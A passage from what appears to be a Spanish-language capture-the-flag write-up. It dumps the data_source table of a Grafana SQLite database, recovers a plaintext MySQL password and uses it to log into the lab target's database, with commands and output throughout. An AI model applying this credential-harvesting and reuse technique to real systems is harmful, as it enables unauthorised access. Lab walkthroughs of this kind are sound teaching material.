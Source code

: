  ```bash
 sqlite3 grafana.bd
 ```

 Una vez detro de la base de datos, procedemos a leer las tablas

 ```bash
 ❯ sqlite3 grafana.db
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token           
sqlite> 

 ```

Usando una query de SQL, leeremos las columnas de la tabla **data_source**.


```bash
select * from data_source;

```
Veremos algo cómo esto.

```bash
sqlite> SELECT * FROM data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2023-01-20 21:54:47|0|{}|1|uKewFgM4z
sqlite> 
```

## Ganamos acceso
Donde el parámetro -h corresponde al host -u  al user -p a la contraseña
Ahora nos podemos conectar a **MySQL** debido a que conocemos el user y su contraseña.
```bash
❯ mysql -h10.10.11.183 -ugrafana -pdontStandSoCloseToMe63221!
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 47
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
```